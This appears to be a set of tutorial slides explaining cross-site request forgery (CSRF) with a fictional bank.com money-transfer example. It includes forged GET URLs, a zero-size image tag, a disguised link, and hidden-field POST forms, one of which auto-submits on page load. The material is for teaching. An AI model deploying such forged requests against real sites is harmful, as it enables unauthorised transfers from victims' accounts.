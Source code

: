   * Alice wants to transfer $100 to Bob via bank's website "bank.com"
  ```javascript
     - example GET request:
       - `GEThttp://bank.com/transfer.do?acct=BOB&amount=100 HTTP/1.1`
  ```

    - Eve as eavesdropper creates an exploit URL like this:
  ```javascript
       - `GEThttp://bank.com/transfer.do?acct=EVE&amount=1000 HTTP/1.1`
  ```
  


---


## Get: cont'd
    - Now via social engineering:
```javascript
       - `<a href="http://bank.com/transfer.do?acct=EVE&amount=1000">Click to earn money!</a>`
```
or

```javascript
       - `<img src="http://bank.com/transfer.do?acct=EVE&amount=1000" width="0" height="0" border="0">`
```


---


## POST

  * Normal request:
    `POST http://bank.com/transfer.do HTTP/1.1`
    `acct=BOB&amount=100`
     
  * Vulnerable request and wait for the victim to submit:

```html
    <form action="<nowiki>http://bank.com/transfer.do</nowiki>" method="POST">
    <input type="hidden" name="acct" value="MARIA"/>
    <input type="hidden" name="amount" value="100000"/>
    <input type="submit" value="View my pictures"/>
    </form>
```



---


## POST, cont'd
  * if you don't want to wait for the victim and send it automatically:

```html
    <body onload="document.forms[0].submit()">
    <form action="<nowiki>http://bank.com/transfer.do</nowiki>" method="POST">
    <input type="hidden" name="acct" value="MARIA"/>
    <input type="hidden" name="amount" value="100000"/>
    <input type="submit" value="View my pictures"/>
    </form>
```
